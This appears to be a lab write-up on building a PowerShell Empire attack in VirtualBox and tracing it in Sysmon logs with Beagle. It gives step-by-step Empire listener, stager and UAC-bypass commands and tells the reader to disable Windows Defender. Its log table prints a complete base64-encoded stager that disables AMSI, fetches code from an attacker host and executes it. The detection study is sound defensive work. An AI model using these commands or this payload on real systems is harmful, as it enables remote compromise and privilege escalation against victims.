






# How the Attacker Works?
## Tools and preparations:
- Virtual Box with:
  - Windows
    - Sysmon
    - Event Viewer (already on Windows 10)
  - Kali Linux
   - Power Shell Empire
   - Docker
- Set all VM to "NAT networks" so Windows and Kali Linux able to communicate

## The process:
### Sysmon install and configure (Windows)
1. `git clone http://github.com/ion-storm/sysmon-config.git`
2. `cd sysmon-config`
3. `install sysmon.bat`
4. Turn off Windows Defender or Security

### Install and run Empire (Kali Linux)
1. Install: <https://github.com/EmpireProject/Empire>
2. Go to the Empire folder, to run tipe `./empire`

### Run Listeners
1. `(Empire)> listeners`
> Output: 
2. `(Empire: listeners) > uselistener http`
3. `(Empire:listeners/http) > info`
> Output: 

4. `(Empire:listeners/http) > execute`
> Output: 

5. `(Empire:listeners/http) > back`
6. `(Empire:listeners) > listeners`
> Output: 

### Run the Stager
1. `(Empire) > usestager multi/launcher`
2. `(Empire: stager/multi/launcher) > set Listener http`
3. `(Empire: stager/multi/launcher) > execute`
> Output: 

### Send agent to the victim
1. Disable Windows Security
2. Copy all the agent (text) to the victim (Windows 10), use Windows PowerShell by Administrator privileges
> Output: 

### Run agents (stagers/launcher module?)
1. `(Empire) > agents`
> Output: 

2. For easy read, rename the target (victim) `Empire: agents) > rename 5ETSB9W1 victim1`
3. `(Empire: agents) > list`
> Output: 

4. `(Empire: agents) > interact victim1`
5. `(Empire: victim1) > info`
> Output: 

6. `(Empire: victim1) > usemodule privesc/bypassuac_fodhelper`
7. `(Empire: powershell/privesc/bypassuac_fodhelper) > info`
> Output: 

8. `(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http`
9. `(Empire: powershell/privesc/bypassuac_fodhelper) > execute`
10. `[>] Module is not opsec safe, run? [y/N] y`
> Output: 

### Using Beagle
1. Install and Run Docker (Kali Linux):
  1. Install: <https://medium.com/@airman604/installing-docker-in-kali-linux-2017-1-fbaa4d1447fe>
  2. `service docker start`
2. Intall and Run beagle
  1. `docker pull yampelo/beagle`
  2. `mkdir -p data/beagle`
  3. `docker run -v "$PWD/data/beagle":"/data/beagle" -p 8000:8000 yampelo/beagle` (sometime need to run twice)
3. From Windows
  1. Run Event Viewer
  2. Go to Applications and Services Logs-Microsoft-Windows-Sysmon
  
  3. save all sysmon log to file
  4. Open browser and go to <kali-linux-host:8000> to open Beagle
  
  5. upload sysmon log file
4. Analizing the data graph
  1. Graph 1  
    >
  2. Graph 2
    >
  3. Tree
    >
  4. Timeline
    >

5. Analizing the data table
  1. File
    |extension|file_name|file_path|full_path|hashes|host|
    |--|--|--|--|--|--|
    |null|Microsoft.VisualStudio.LiveShare.ExceptionHelper.resources.dll|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\ja|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\ja\Microsoft.VisualStudio.LiveShare.ExceptionHelper.resources.dll|{}|null|
    |null|powershell.exe|C:\Windows\System32\WindowsPowerShell\v1.0|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|{"imphash":"A7CEFACDDA74B13CD330390769752481","md5":"CDA48FC75952AD12D99E526D0B6BF70A","sha256":"908B64B1971A979C7E3E8CE4621945CBA84854CB98D76367B791A6E22B5F6D53"}|WinDev1911Eval|
    |null|Microsoft.VisualStudio.LiveShare.DebuggerService.Server.resources.dll|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\it|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\it\Microsoft.VisualStudio.LiveShare.DebuggerService.Server.resources.dll|{}|null|
    |null|Microsoft.VisualStudio.LiveShare.Telemetry.dll|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\Microsoft.VisualStudio.LiveShare.Telemetry.dll|{}|null|
    |null|api-ms-win-crt-multibyte-l1-1-0.dll|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\Agent|C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\Extensions\Microsoft\LiveShare\Agent\api-ms-win-crt-multibyte-l1-1-0.dll|{}|null|
    |null|__PSScriptPolicyTest_0sahvakt.ow1.ps1|C:\Users\User\AppData\Local\Temp|C:\Users\User\AppData\Local\Temp\__PSScriptPolicyTest_0sahvakt.ow1.ps1|{}|null|
    |null|__PSScriptPolicyTest_nvnjonjs.4fc.psm1|C:\Users\User\AppData\Local\Temp|C:\Users\User\AppData\Local\Temp\__PSScriptPolicyTest_nvnjonjs.4fc.psm1|{}|null|
    |null|whoami.exe|C:\Windows\System32|C:\Windows\System32\whoami.exe|{"imphash":"7FF0758B766F747CE57DFAC70743FB88","md5":"2EEEEC89E705F73FFBCAE014E1828788","sha256":"A8A4C4719113B071BB50D67F6E12C188B92C70EEAFDFCD6F5DA69B6AAA99A7FD"}|WinDev1911Eval|

  2. Process
    |command_line|hashes|host|process_guid|process_id|process_image|process_image_path|process_path|user|
    |--|--|--|--|--|--|--|--|--|
    |null|{}|WinDev1911Eval|{41f4f948-8257-5def-0000-00103bdb2a00}|5820|powershell.exe|C:\Windows\System32\WindowsPowerShell\v1.0|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|null|
    |"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBFAFIAUwBJAE8AbgBUAEEAYgBMAEUALgBQAFMAVgBlAFIAcwBpAE8ATgAuAE0AYQBqAG8AUgAgAC0ARwBlACAAMwApAHsAJABHAFAARgA9AFsAcgBFAGYAXQAuAEEAUwBTAEUATQBiAEwAWQAuAEcAZQBUAFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAGwARAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAGEATABVAGUAKAAkAG4AVQBMAEwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAYQBMAD0AWwBDAE8ATABMAGUAQwBUAGkATwBuAFMALgBHAEUAbgBFAHIASQBjAC4ARABpAGMAVABJAG8ATgBhAHIAeQBbAFMAdABSAEkATgBnACwAUwBZAHMAdABFAE0ALgBPAEIAagBFAGMAVABdAF0AOgA6AG4ARQB3ACgAKQA7ACQAdgBhAGwALgBBAGQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAVgBhAEwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AGEAbAB9AEUAbABzAGUAewBbAFMAQwByAEkAcABUAEIAbABPAGMASwBdAC4AIgBHAGUAdABGAEkARQBgAEwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAFQAVgBBAGwAVQBFACgAJABuAFUAbABMACwAKABOAGUAVwAtAE8AYgBqAGUAQwBUACAAQwBvAGwATABFAGMAdABJAG8ATgBTAC4ARwBlAG4ARQBSAEkAQwAuAEgAQQBzAEgAUwBlAFQAWwBTAFQAcgBpAE4ARwBdACkAKQB9AFsAUgBlAGYAXQAuAEEAUwBTAEUATQBCAEwAeQAuAEcAZQBUAFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBlAHQARgBJAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAGEAbAB1AGUAKAAkAG4AdQBsAGwALAAkAFQAUgB1AEUAKQB9ADsAfQA7AFsAUwB5AHMAVABFAE0ALgBOAGUAdAAuAFMAZQByAFYAaQBDAEUAUABvAEkAbgB0AE0AYQBOAEEAZwBFAFIAXQA6ADoARQBYAFAARQBDAFQAMQAwADAAQwBvAG4AdABJAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAEIASgBlAGMAdAAgAFMAeQBTAFQARQBtAC4ATgBlAFQALgBXAGUAQgBDAGwAaQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAFcAYwAuAEgARQBBAGQAZQBSAHMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAHcAQwAuAFAAcgBPAHgAeQA9AFsAUwBZAHMAVABFAE0ALgBOAEUAdAAuAFcARQBiAFIAZQBxAHUARQBTAFQAXQA6ADoARABlAEYAYQB1AGwAVABXAEUAQgBQAFIAbwB4AHkAOwAkAFcAYwAuAFAAcgBPAFgAeQAuAEMAcgBlAEQAZQBuAFQAaQBhAGwAUwAgAD0AIABbAFMAeQBTAFQAZQBNAC4ATgBlAHQALgBDAFIAZQBkAGUATgB0AEkAQQBMAEMAQQBDAEgAZQBdADoAOgBEAGUARgBBAHUAbAB0AE4ARQB0AFcATwBSAEsAQwBSAEUAZABlAE4AdABpAEEAbABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAdABFAE0ALgBUAGUAeABUAC4ARQBuAEMATwBEAEkATgBnAF0AOgA6AEEAUwBDAEkASQAuAEcARQBUAEIAWQB0AEUAcwAoACcAZQB4AFQAYgB1ADgAJgAwAHcASABVAEQAYwBaAH4AegBtADsALQByAC8AKQBzACEARgB2AEkAVgBTADcAPQBbACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIAZwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAFUATgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAeABvAHIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMAAuADIALgA0ADoAOAAwACcAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJAB3AGMALgBIAEUAYQBEAEUAUgBzAC4AQQBkAEQAKAAiAEMAbwBvAGsAaQBlACIALAAiAHMAZQBzAHMAaQBvAG4APQBmAGQAMQBNAHEAZQBzAGEALwBRAG8ASABmAG8AUABmAFAANwB0ADgAWQAxADAAegAvAGsANAA9ACIAKQA7ACQARABBAFQAYQA9ACQAVwBDAC4ARABPAHcAbgBsAE8AYQBkAEQAQQB0AEEAKAAkAFMAZQByACsAJABUACkAOwAkAGkAdgA9ACQARABhAFQAYQBbADAALgAuADMAXQA7ACQAZABBAFQAQQA9ACQAZABhAFQAQQBbADQALgAuACQARABhAHQAQQAuAEwAZQBuAGcAVABoAF0AOwAtAEoAbwBJAG4AWwBDAEgAQQByAFsAXQBdACgAJgAgACQAUgAgACQARABhAHQAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA|{"imphash":"A7CEFACDDA74B13CD330390769752481","md5":"CDA48FC75952AD12D99E526D0B6BF70A","sha256":"908B64B1971A979C7E3E8CE4621945CBA84854CB98D76367B791A6E22B5F6D53"}|WinDev1911Eval|{41f4f948-858f-5def-0000-0010da027200}|4380|powershell.exe|C:\Windows\System32\WindowsPowerShell\v1.0|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|WINDEV1911EVAL\User|
    |"C:\Windows\system32\whoami.exe" /groups|{"imphash":"7FF0758B766F747CE57DFAC70743FB88","md5":"2EEEEC89E705F73FFBCAE014E1828788","sha256":"A8A4C4719113B071BB50D67F6E12C188B92C70EEAFDFCD6F5DA69B6AAA99A7FD"}|WinDev1911Eval|{41f4f948-86b3-5def-0000-0010693d7400}|6608|whoami.exe|C:\Windows\System32|C:\Windows\System32\whoami.exe|WINDEV1911EVAL\User|
    |"C:\Windows\system32\whoami.exe" /groups|{"imphash":"7FF0758B766F747CE57DFAC70743FB88","md5":"2EEEEC89E705F73FFBCAE014E1828788","sha256":"A8A4C4719113B071BB50D67F6E12C188B92C70EEAFDFCD6F5DA69B6AAA99A7FD"}|WinDev1911Eval|{41f4f948-86b3-5def-0000-0010d0437400}|3568|whoami.exe|C:\Windows\System32|C:\Windows\System32\whoami.exe|WINDEV1911EVAL\User|

  3. IP Address
    |ip_address|mac|
    |--|--|
    |10.0.2.4|null|

  4. Edges
    |from|to|type|data|timestamp|
    |--|--|--|--|--|
    |powershell.exe|powershell.exe|Launched|{}|2019-12-10T11:46:23.000Z|
    |powershell.exe|__PSScriptPolicyTest_0sahvakt.ow1.ps1|Accessed|{}|2019-12-10T11:46:24.000Z|
    |powershell.exe|__PSScriptPolicyTest_nvnjonjs.4fc.psm1|Accessed|{}|2019-12-10T11:46:24.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:27.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:28.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:29.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:35.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:40.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:45.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:50.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:46:55.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:00.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:05.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:10.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:15.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:20.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:25.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:30.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:36.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:41.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:46.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:51.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:47:56.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:01.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:06.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:11.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:16.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:21.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:26.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:31.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:36.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:42.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:47.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:52.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:48:57.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:02.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:07.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:12.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:17.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:22.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:27.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:32.000Z|
